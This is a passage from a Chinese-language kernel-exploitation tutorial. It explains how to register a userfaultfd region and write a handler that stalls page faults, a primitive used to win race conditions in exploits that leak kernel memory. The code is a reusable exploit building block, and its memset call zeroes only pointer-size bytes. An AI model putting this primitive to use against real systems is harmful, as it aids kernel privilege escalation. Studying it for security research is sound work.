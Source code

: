```c
    ur.range.start = (unsigned long)fault_page; //我们要监视的区域
    ur.range.len   = PAGE_SIZE;
    ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) //注册缺页错误处理
        //当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作
        ErrExit("[-] ioctl-UFFDIO_REGISTER");
    //开一个线程，接收错误的信号，然后处理
    int s = pthread_create(&thr, NULL,handler, (void*)uffd);
    if (s!=0)
        ErrExit("[-] pthread_create");
}
```

注册时，调用` RegisterUserfault(mmap_buf, handler);`在buf缺页异常时，就会调用handler。

handler函数写法：

```c
void* userfaultfd_leak_handler(void* arg)
{
    struct uffd_msg msg;
    unsigned long uffd = (unsigned long) arg;
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    nready = poll(&pollfd, 1, -1);
    sleep(3);
    if (nready != 1)
    {
        ErrExit("[-] Wrong poll return val");
    }
    nready = read(uffd, &msg, sizeof(msg));
    if (nready <= 0)
    {
        ErrExit("[-] msg err");
    }

    char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
    {
        ErrExit("[-] mmap err");
    }
    struct uffdio_copy uc;
    // init page
    memset(page, 0, sizeof(page));
    uc.src = (unsigned long) page;
    uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1);
    uc.len = PAGE_SIZE;
    uc.mode = 0;
    uc.copy = 0;
    ioctl(uffd, UFFDIO_COPY, &uc);
    puts("[+] leak handler done");
    return NULL;
}
```
